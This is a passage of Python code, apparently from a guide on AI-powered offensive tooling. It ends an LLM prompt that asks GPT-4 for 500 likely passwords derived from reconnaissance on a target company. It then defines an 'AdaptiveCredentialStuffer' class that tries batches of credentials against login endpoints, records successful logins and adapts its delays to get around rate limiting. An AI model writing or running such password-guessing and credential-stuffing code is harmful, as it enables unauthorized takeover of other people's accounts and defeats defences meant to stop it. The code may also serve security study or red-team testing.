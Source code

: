```python
        {json.dumps(intelligence, indent=2)}

        Create 500 likely passwords considering:
        1. Company name variations and abbreviations
        2. Industry-specific terminology
        3. Location/geographic references
        4. Common date formats (founding, important dates)
        5. Product or service names
        6. Employee naming patterns
        7. Common password patterns from analysis
        8. Seasonal variations
        9. Current events and trends
        10. Technical terms relevant to the industry

        Return passwords in order of likelihood.
        """

        response = self.llm.chat.completions.create(
            model="gpt-4",
            messages=[{"role": "user", "content": wordlist_prompt}]
        )

        return response.choices[0].message.content.strip().split('\n')
```

#### 1.2 Adaptive Credential Stuffing

```python
class AdaptiveCredentialStuffer:
    def __init__(self, llm_client):
        self.llm = llm_client
        self.success_patterns = {}

    async def intelligent_credential_stuffing(self, targets: List[str], credentials: List[Dict]) -> List[Dict]:
        """Perform adaptive credential stuffing with AI optimization"""

        successful_logins = []
        attempt_history = []

        for target in targets:
            # Analyze target for optimal approach
            target_analysis = await self.analyze_login_endpoint(target)

            # Select best credentials for this target
            optimized_creds = self.optimize_credential_selection(
                credentials,
                target_analysis,
                attempt_history
            )

            # Perform stuffing with adaptive timing
            for cred_batch in self.batch_credentials(optimized_creds):
                results = await self.attempt_credential_batch(target, cred_batch, target_analysis)
                attempt_history.extend(results)

                # Check for successful logins
                successful = [r for r in results if r['success']]
                successful_logins.extend(successful)

                # Adapt strategy based on responses
                if self.detect_rate_limiting(results):
                    await self.adaptive_delay(target, results)

```